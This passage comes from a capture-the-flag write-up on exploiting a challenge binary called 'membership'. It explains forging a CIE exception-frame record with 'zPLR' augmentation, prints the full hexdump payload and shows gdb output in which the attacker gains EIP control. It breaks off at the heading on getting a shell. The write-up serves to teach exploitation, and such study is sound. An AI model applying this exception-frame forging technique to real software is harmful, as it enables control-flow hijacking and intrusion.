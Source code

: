 Then, the rest of the data is parsed as augmentation contents (aka &#8216;zPLR&#8217;).

  1. If the first byte is &#8216;z&#8217;, it sets <span class="lang:default decode:true  crayon-inline ">fs->saw_z flag</span>  and note that the length of the extra augmentation data (which follows the length itself) is **0x07**.
  2. &#8216;P&#8217; indicates a personality routine  is specified in CIE (extra) augmentation, and basically read the **personality_ptr** value (4-byte) based on the **personality_enc** encoding scheme &#8212; which we set as 0x0 to make it absptr type.
  3. &#8216;L&#8217; indicates a byte showing how the LSDA pointer is encoded. No idea what that is, but it&#8217;s not relevant &#8212; we put 0x0.
  4. &#8216;R&#8217; indicates a byte indicating how FDE addresses are encoded. We put some sane value that we saw earlier, but shouldn&#8217;t matter either.

Alright, now with some padding bytes to make the total length **0x1c**, we are set.

Thus far, we have built the following payload:

<pre class="nums:false lang:default highlight:0 decode:true" title="payload">00000000  73 74 64 63 68 70 69 65  0a 41 18 b1 2e 40 1c 50  |stdchpie.A...@.P|
00000010  02 40 41 41 41 41 41 42  41 42 42 42 00 00 00 00  |.@AAAAABABBB....|
00000020  ff ff ff ff 00 00 00 00  34 50 02 40 43 43 43 43  |........4P.@CCCC|
00000030  00 00 00 00 50 e5 74 64  44 44 44 44 54 50 02 40  |....P.tdDDDDTP.@|
00000040  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000050  49 49 49 49 01 1b 03 3b  14 00 00 00 01 00 00 00  |IIII...;........|
00000060  ac af fd bf 14 00 00 00  1c 00 00 00 e4 ff ff ff  |................|
00000070  00 00 00 00 ff ff ff ff  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  1c 00 00 00 00 00 00 00  |................|
00000090  01 7a 50 4c 52 00 01 7c  08 07 00 44 43 42 41 00  |.zPLR..|...DCBA.|
000000a0  1b 00 00 00                                       |....|</pre>

And corresponding output when we run this payload against the binary:

<pre class="nums:false lang:default highlight:0 decode:true" title="output">(gdb) r &lt; payload
Starting program: /tmp/.ppp/./membership &lt; payload
userid :: password ::
Program received signal SIGSEGV, Segmentation fault.
0x08048e01 in ?? ()
(gdb) c
Continuing.
nested

Program received signal SIGSEGV, Segmentation fault.
0x08048cc5 in ?? ()
(gdb)
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41424344 in ?? ()
(gdb)</pre>

YAY!!! WE HAVE EIP CONTROL!!!!111!!11!

Ok, now on to the final and easiest step: getting a shell.

## 4-5. Give me a shell
